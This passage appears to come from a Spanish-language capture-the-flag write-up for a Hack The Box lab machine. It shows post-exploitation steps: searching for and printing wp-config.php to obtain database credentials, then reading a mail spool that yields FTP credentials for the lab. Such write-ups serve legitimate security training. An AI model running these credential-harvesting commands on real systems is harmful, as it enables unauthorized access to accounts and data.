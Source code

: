 Vemos un archivo comprimido en `wordpress`, asi que podemos tratar de buscar el archivo `wp-config.php` que generalmente contiene credenciales.

```bash
find / -name wp-config.php 2>/dev/null
> /home/ib01c03/www/wp-config.php
cat /home/ib01c03/www/wp-config.php
> <?php
/** The name of the database for WordPress */
define('DB_NAME', 'ib01c03');

/** MySQL database username */
define('DB_USER', 'ib01c03');

/** MySQL database password */
define('DB_PASSWORD', 'Thi$sh1tIsN0tGut');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

Obtenemos unas credenciales validas pero que correspoden al mismo usuario `ib01c03`, ahora recordemos que cuando obtuvimos subdominios, se nos reporto uno asociado a `mail1.rentahacker.htb`, por ello podemos listar la ruta `/var/spool/mail` buscando información.

```bash
ls -l /var/spool/mail/*
> -rw-rw-r-- 1 root mail 1274 Dec 10  2018 /var/spool/mail/ib01c03
-rw-rw---- 1 root mail 1043 Dec 11  2018 /var/spool/mail/support
```

Vemos que existe un correo el cual al leerlo obtenemos las credenciales del usuario `ib01ftp:YhgRt56_Ta`.


```bash
cat /var/spool/mail/ib01c03
> From support@ib01.supersechosting.htb Mon Dec 10 21:10:56 2018
Return-path: <support@ib01.supersechosting.htb>
Envelope-to: ib01c03@ib01.supersechosting.htb
Delivery-date: Mon, 10 Dec 2018 21:10:56 +0100
Received: from support by ib01.supersechosting.htb with local (Exim 4.89)
	(envelope-from <support@ib01.supersechosting.htb>)
	id 1gWRtI-0000ZK-8Q
	for ib01c03@ib01.supersechosting.htb; Mon, 10 Dec 2018 21:10:56 +0100
To: <ib01c03@ib01.supersechosting.htb>
Subject: Re: Please help! Site Defaced!
In-Reply-To: Your message of Mon, 10 Dec 2018 21:04:49 +0100
	<E1gWRnN-0000XA-44@ib01.supersechosting.htb>
References: <E1gWRnN-0000XA-44@ib01.supersechosting.htb>
X-Mailer: mail (GNU Mailutils 3.1.1)
Message-Id: <E1gWRtI-0000ZK-8Q@ib01.supersechosting.htb>
From: support <support@ib01.supersechosting.htb>
Date: Mon, 10 Dec 2018 21:10:56 +0100
X-IMAPbase: 1544472964 2
Status: O
X-UID: 1

>> Please we need your help. Our site has been defaced!
>> What we should do now?
>>
>> rentahacker.htb

Hi, we will check when possible. We are working on another incident right now. We just make a backup of the apache logs.
Please check if there is any strange file in your web root and upload it to the ftp server:
ftp.supersechosting.htb
```